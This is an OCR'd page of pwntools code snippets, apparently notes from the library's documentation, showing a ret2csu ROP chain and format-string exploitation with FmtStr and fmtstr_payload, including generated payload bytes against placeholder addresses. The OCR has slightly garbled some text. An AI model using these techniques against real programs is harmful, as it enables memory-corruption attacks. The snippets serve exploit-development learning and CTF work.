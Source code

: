 ## Return to csu
```py
>>> r = ROP(context.binary)
>>> r.ret2csu(1, 2, 3, 4, 5, 6, 7, 8, 9)
>>> r.call(0xdeadbeef)
```

## Format string bug
```py
>>> program = pwnlib.data.elf.fmtstr.get('i386')
>>> def exec_fmt(payload):
...   p = process(program)
...   p.sendline(payload)
...   return p.recvall()
...
>>> autofmt = FmtStr(exec_fmt)
>>> offset = autofmt.offset
>>> p = process(program, stderr=PIPE)
>>> addr = unpack(p.recv(4))
>>> payload = fmtstr_payload(offset, {addr: 0x1337babe})
>>> p.sendline(payload)
```

```py
writes = {0x08041337: 0xbfffffff,
 0x08041337+4: 0x1337babe,
 0x08041337+8: 0xdeadbeef}

# numbwritten (int) – number of byte already written by the print func!on
payload = fmtstr_payload(5, writes, numbwritten=8)
```

```py
>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte')
b'%19c%12$hhn%36c%13$hhn%131c%14$hhn%4c%15$hhn\x03\x00\x00\x00\x02\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'
>>> fmtstr_payload(1, {0x0: 0x00000001}, write_size='byte')
b'%1c%3$na\x00\x00\x00\x00'
>>> fmtstr_payload(1, {0x0: b"\xff\xff\x04\x11\x00\x00\x00\x00"},
write_size='short')
b'%327679c%7$lln%18c%8$hhn\x00\x00\x00\x00\x03\x00\x00\x00'
```

